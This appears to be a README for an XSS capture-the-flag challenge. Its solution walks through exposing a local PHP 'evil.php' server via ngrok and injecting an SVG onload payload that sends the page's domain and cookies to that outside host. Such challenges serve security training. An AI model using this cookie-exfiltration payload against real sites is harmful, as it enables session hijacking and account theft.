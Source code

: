 Vulnerable html page contains cookie.
Let's Steal the cookie with evil.php

If you can't solve, look solution 


Are you build your evil payload ?
Let's try ->  https://cyb3rsalih.github.io/xss-challenge/



======= SOLUTION ======= 

1- Create your local php server in folder where evil.php 
` php -S localhost:1234 `

2- Connect your local server to internet
` ngrok http 1234 `

3- Your address is something like this
` http://xxxxxxxxx.ngrok.io `


4- Now add your XSS payload to vulnerable input.
```
<svg onload="function a(){var url = `http://xxxxxxxxx.ngrok.io/evil.php?domain=${document.domain}&cookie=${document.cookie}`;var r=new XMLHttpRequest();r.open('GET', url, true);r.send();};a();">
```

